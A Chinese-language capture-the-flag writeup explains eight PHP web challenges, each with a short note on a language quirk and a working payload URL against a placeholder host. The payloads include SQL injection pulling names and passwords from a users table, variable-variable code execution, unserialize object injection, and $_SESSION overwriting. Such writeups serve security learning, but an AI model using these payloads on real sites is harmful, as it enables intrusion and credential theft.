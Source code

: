 ## Writeup

>PHP is the best language in the world! - Mark Twain

### challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用`\`将原SQL语句中的第二个单引号转义，成功逃逸引号。

payload:`http://foobar/challenge1.php?username=\&password=%20or%201=1%20limit%201%23`

### challenge2:
PHP中花括号的用法：字符串`${foobar}`中的foobar会被当作变量来处理，详情参见: http://php.net/manual/en/language.variables.variable.php

payload:`http://foobar/challenge2.php?str=${${phpinfo()}}`

### challenge3:
利用PHP和MySQL中浮点数精度不同的特性来做，在PHP中`1.0000000000001 != 1`而在MySQL中`1.0000000000001 == 1`

payload: `http://foobar/challenge3.phpid=1.0000000000001`

### challenge4:
foreach那一段代码避免了变量覆盖的发生，却也可能导致释放原有变量，通过通过传参$_CONFIG=anything来释放掉$_CONFIG变量，从而绕过过滤，剩下的就是SQL注入了。

payload: `http://foobar/challenge4.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa`

### challenge5:
PHP弱类型导致的BUG，当`$var`是一个字符串/数组的时候，访问`$var["any string"]`跟访问`$var[intval("any string")]`效果是一样的，所以就有如下思路:
1. 访问`http://foobar/challenge5.php?userInfo=a:2:{s:2:"id";s:1:"8";s:4:"pass";s:12:"MAYBECHANGED";}&newPass=8`将账号jimbo18714的密码修改为8
2. 访问`http://foobar/challenge5.php?userInfo=s:1:"8";&newPass=1`将ID为1的账号密码修改为1

### challenge6:
PHP中引用的用法，将`$o->enter`设置为`$o->secret`的引用，这样更改`$o->secret`时`$o->enter`也会随之更改。p.s.乌云知识库上面那个思路完全是在扯淡。

payload:`http://foobar/challenge6.php?pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}`

### challenge7:
`$_REQUEST`变量中如果碰到`$_GET`和`$_POST`重名的字段，`$_POST`的该字段会覆盖掉`$_GET`的该字段，可以借此特性绕过对`$_REQUEST`的数组判断，进而覆盖`$_SESSION`变量

payload: `http://foobar/challenge7.php?_SESSION[logged]=1 (POST: _SESSION=1)`

### challenge8:
PHP反序列化的一个小特性，反序列化时会忽略掉用来表示长度的数字前面的`+`，大概是把`+`当作正号来处理了吧。详情参考:http://www.2cto.com/kf/201309/246310.html

payload:`http://foobar/challenge8.php?data=O:%2B8:"just4fun":1:{s:8:"filename";s:9:"sbztz.php";}`